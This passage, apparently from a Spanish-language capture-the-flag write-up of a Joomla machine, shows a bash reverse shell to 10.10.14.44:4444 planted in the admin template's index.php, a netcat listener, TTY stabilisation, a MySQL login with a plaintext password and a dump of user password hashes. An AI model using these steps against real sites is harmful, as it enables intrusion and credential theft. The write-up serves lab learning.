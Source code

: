 Ahora chafardeando un poco nos metemos en System, luego en administrador templates y en  	Atum Details and Files y a la izquierda veremos muchos archivos .php y el que nos interesa es el "index.php que nos deja editarlo y le meteremos nuestro codigo en la segunda linea y poniendo nuestra ip.


```
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.44/4444 0>&1'");
```

Nos pondremos en "escucha" por el puerto 4444 con el codigo
```
nc -lvnp 4444
```

Guardaremos el archivo .php dandole a save arriba y....

PUM! estamos dentro!
![Branching](/imagenes/dentro.JPG)


Usaremos estos comandos en el mismo orden para poner bien la terminal.
```
script /dev/null -c /bin/bash

stty raw -echo; fg
export TERM=xterm
```

Y empezaremos con el mysql, introduciendo el usuario y la contraseña que ya teniamos de antes.
```
mysql -u lewis -p

Contraseña: P4ntherg0t1n5r3c0n##
```
Una vez dentro introduciremos los comandos y podremos ver la tabla con dos usuarios y sus contraseñas
```
mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| joomla             |
| performance_schema |
+--------------------+
3 rows in set (0.00 sec)

mysql> use joomla;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> select username,password from sd4fg_users;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| lewis    | $2y$10$6V52x.SD8Xc7hNlVwUTrI.ax4BIAYuhVBMVvnYWRceBmy8XdEzm1u |
| logan    | $2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12 |
+----------+--------------------------------------------------------------+
2 rows in set (0.00 sec)
```

